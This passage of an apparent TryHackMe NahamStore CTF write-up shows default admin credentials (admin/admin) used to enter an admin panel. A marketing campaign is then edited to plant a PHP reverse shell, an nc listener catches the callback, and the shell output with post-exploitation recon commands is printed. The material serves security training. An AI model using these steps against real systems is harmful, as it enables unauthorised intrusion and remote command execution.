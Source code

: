 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl -vv http://nahamstore.thm:8000/admin/
[...]
< Location: /admin/login
```

**It redirects me to `/admin/login`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a51.png)

**We can try to guess the admin password:**

- Username: admin
- Password: admin

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a52.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a53.png)

We're in! :D

**In the `Actions`, we can edit one of those campaign:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a54.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a55.png)

Hmm... **What if I can modify the code into a PHP reverse shell?**

**I'll use a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a56.png)

**Now, setup a `nc` listener, click the `Update` button:**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# nc -lnvp 443        
listening on [any] 443 ...
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a57.png)

**Trigger the PHP reverse shell via browsing `marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a58.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# nc -lnvp 443        
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.46.5] 50764
Linux af11c847d4c7 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:50:30 up  4:11,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami;hostname;id;ip a
www-data
af11c847d4c7
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff link-netnsid 0
```